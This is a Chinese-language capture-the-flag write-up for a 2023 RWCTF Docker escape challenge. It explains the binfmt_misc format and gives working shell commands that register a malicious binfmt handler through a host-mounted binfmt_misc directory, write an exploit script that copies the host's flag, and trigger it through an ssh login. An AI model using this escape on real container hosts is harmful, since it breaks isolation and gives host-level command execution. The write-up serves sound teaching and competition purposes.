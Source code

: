 ## About

这是2023年第五届RWCTF体验赛的容器逃逸的其中一个题目

## Description of the challenge

`nc 47.98.99.193 7777 `

[attachment](https://rwctf-eval-attachment.oss-cn-hangzhou.aliyuncs.com/Be-a-Docker-Escaper-2_70189456877f33cf3e6ca938b5cdf82f.zip) 

## Weriteup

该题目的思路来自于一篇 [slide][1] , 选手通过 ssh 获取题目 shell 后， 可以发现是在容器环境中。 仔细看根目录可以看到容器环境将 HOST 的 /proc/sys/fs/binfmt_misc/ 目录映射到了容器的 /binfmt_misc。

通过了解资料知道 Linux内核有一个名为Miscellaneous Binary Format（binfmt_misc）的机制，可以通过要打开文件的特性来选择到底使用哪个程序来打开。这种机制可以通过文件的扩展名或文件开始位置的特殊的字节（Magic Byte）来判断应该如何打开文件。

其 binfmt 的格式如下：

```
name:type:offset:magic:mask:interpreter:flags
```

这个配置中每个字段都用冒号 : 分割，某些字段拥有默认值可以跳过，但是必须保留相应的冒号分割符。
各个字段的意义如下：

* name：规则名
* type：表示如何匹配被打开的文件，值为 E 或 M 。E 表示根据扩展名识别，而 M 表示根据文件特定位置的Magic Bytes来识别
* offset：type字段设置成 M 之后有效，表示查找Magic Bytes的偏移，默认为0
* magic：表示要匹配的Magic Bytes，type字段为 M 时，表示文件的扩展名，扩展名是大小写敏感的，不需要包含 .。type字段为 E 时，表示Magic Bytes，其中不可见字符可以通过 \xff 的方式来输出
* mask：type字段设置成 M 之后有效，长度与Magic Bytes的长度一致。如果某一位为1，表magic对应的位匹配，为0则忽略。默认为全部匹配
* interpreter：启动文件的程序，需要是绝对路径
* flags: 可选字段，控制interpreter打开文件的行为。共支持 POCF 四种flag。

因此我们可以注册一个自己的 binfmt， 然后让其 HOST 执行相应的文件，就可以完成逃逸。关键是如何在 HOST 执行相应的文件。观察出题人给的条件,  出题人给了 ssh 登陆的途径。
我们通过 strace sshd 进程  ， 我们会发现 sshd 服务当有 ssh 尝试连接的时候会执行一些 bash 脚本，例如`etc/update-motd.d/00-header`

![img](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-02-56039af0e5542900724814fd7490e4b0-6fc748.png)

可以看到这个文件是个 bash 脚本

![img](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-02-610c82deef5bb44b4a23f4875da793ad-eb7859.png)

至此打通了逃逸的路径, 完整利用过程：

1. 首先注册一个自己的 binfmt

```bash
echo ":test:M::\x23\x21\x2f\x62\x69\x6e\x2f\x73\x68::/var/lib/docker/overlay2/$overlay/diff/tmp/exploit:" > /binfmt_misc/register 
```

例如上一条语句，即为注册一个名 test， magic 为 `#!/bin/sh` , interpreter位于 `/var/lib/docker/overlay2/$overlay/diff/tmp/exploit` 的 binfmt ，其中 `overlay2` 我们可以在 docker 中使用  mount 命令来获取

2. 往 `/var/lib/docker/overlay2/$overlay/diff/tmp/exploit` 写入我们要执行的命令

```bash
echo '#!/bin/bash' > /tmp/exploit
echo "docker cp /root/flag $container:/tmp/" >> /tmp/exploit
chmod 777 /tmp/exploit
```

3. 最后再使用 ssh 登陆一次即可获取 flag

## Deploy

题目部署脚本相关可以参考 [deploy][2] 文件夹


## Reference Link

[1]: https://github.com/knownsec/KCon/blob/master/2021/Container%20escape%20in%202021.pdf	"Container escape in 2021"
[2]: ./deploy	"题目部署脚本"
